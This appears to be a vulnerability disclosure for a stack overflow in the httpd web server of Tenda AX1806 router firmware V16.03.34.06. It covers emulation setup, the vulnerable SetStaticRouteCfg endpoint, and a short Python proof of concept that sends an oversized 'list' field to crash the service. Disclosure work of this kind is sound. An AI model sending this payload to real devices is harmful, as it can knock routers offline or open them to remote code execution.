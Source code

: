 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the function, which can be accessed via the URL .`fromSetRouteStatic goform/SetStaticRouteCfg`

![image](https://github.com/Raining-101/IOT_cve/blob/a7697c82331c99189be61d7b19f54cddc00365d5/image/1_tenda-ac8_image.png)

Stack overflow point：

![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/2_tenda-ac8_image.png)
As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

### PoC

```text-plain
import requests

data = {
    b"list": b'Raining'*0x400+b',R,R,R'
}
res = requests.post("http://192.168.142.100/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

![image](https://github.com/Raining-101/IOT_cve/blob/d5ce501b4af297283a55dae755559140994e1524/image/Snipaste_2025-02-21_15-17-25.png)


